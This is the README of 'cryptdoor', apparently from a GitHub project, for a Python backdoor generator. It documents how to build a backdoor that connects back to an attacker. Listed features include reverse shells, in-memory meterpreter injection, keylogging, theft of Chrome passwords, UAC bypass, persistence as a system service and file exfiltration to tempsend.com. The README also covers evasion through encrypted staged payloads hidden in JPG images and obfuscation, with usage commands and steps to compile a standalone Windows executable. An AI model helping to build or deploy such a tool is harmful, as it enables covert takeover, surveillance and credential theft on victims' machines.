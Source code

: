 cryptdoor
=========

AES encrypted python backdoor that communicates only AES encrypted traffic.  
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).  
We can also download and upload files over the secure AES encrypted connection.  
Keylogging is implemented for windows using pyHook.  
All traffic apart from traffic meterpreter makes are encrypted with AES.  
On top of this all of the imports are randomized, and the script is encrypted with AES and decrypts 
itself in memory at runtime (taken from pyherion).  

Staged payload
=========

The main body of backdoor code is hosted at a url and download at runtime by the backdoor.py stub.  
This means that the actual backdoor code only exists in the victim memory.  
The backdoor payload can be hosted on tempsend.com or at a custom url and downloaded and exec'ed at runtime by the 
backdoor.py script.  
This means the actual backdoor code is not included in the final backdoor.py and is therefore further resistant to 
analysis.  
The code will be hidden in a jpg that remains valid so it can be viewed.  
The key for decrypting the payload code is kept in the downloader, so if anyone finds it online, they will not be able
to decrypt it.

Usage
=========

        usage: ./cryptdoor.py [options]

        optional arguments:
          -h, --help            show this help message and exit
          -i HOSTNAME, --hostname HOSTNAME
                                Ip or hostname to connect back to.
          -p PORT, --port PORT  Port to connect back to.
          -e EXPIRE, --expire EXPIRE
                        Payload Life: h=hour, d=day, w=week, m=month
          -u CUSTOMURL, --customurl CUSTOMURL
                        Host the generated jpg at this url.
          -a, --persistence     Enable Auto-persistence.
          -b BACKDOORNAME, --backdoorname BACKDOORNAME
                                Name of backdoor (default backdoor.py).
          -s SERVERNAME, --servername SERVERNAME
                                Name of server (default server.py).


cryptdoor.py will make the backdoor and server.
The syntax is:

        ./cryptdoor.py -i host -p port

You can add a -a to attempt automatic persistence:

        ./cryptdoor.py -i host -p port -a

host and port refer to the host and port of the listening server (attacker).  
These are the options you have from within the shell:

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to remote pwd.
         tempsend file       -  Upload a file from remote pwd to tempsend.com

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 unpersist           -  Remove persistence and exit.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.
    	 proxyupdate file    -  Update proxy list from file.

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write

        "C:\Python27;C:\Python27\Scripts"

If you do already have one just add a colon before adding this to the variable like:

        "C:\oldpath;C:\Python27;C\Python27\Scripts"

5. Open a new cmd terminal and you should be able to:

        pip install pyinstaller pycrypto requests

6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py if you want to use a proxy.
10. Open a new cmd terminal and cd to wherever backdoor.py is.

        pyinstaller -F -w backdoor.py

11. That's it, enjoy your exe in dist.

Advanced Compilation
=========

You can compile the exe with optimized python files with:

        python -O C:\Python27\Scripts\pyinstaller-script.py -F -w backdoor.py

If you want to upx pack the final exe to decrease final size include tools/upx.exe in the same directory as backdoor.py when you compile with pyinstaller.

Proxies
=========  

NOTE: Proxying is temporarily disabled. Will be back soon.

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:

1. Edit the stubs/backdoor.py script from line 310-311, and fill in the values for the proxy details.

2. Get a DDNS pointed at your IP (proxying will not work without one).

3. Then generate your backdoor with the -x switch and replace the IP with your DDNS hostname:

	./cryptdoor.py -i DDNS -p port -x

HTTP proxying is acheived using:

https://github.com/Anorov/PySocks


Obfuscation
=========

Obfuscation of the backdoor source code is acheived using:

https://github.com/astrand/pyobfuscate
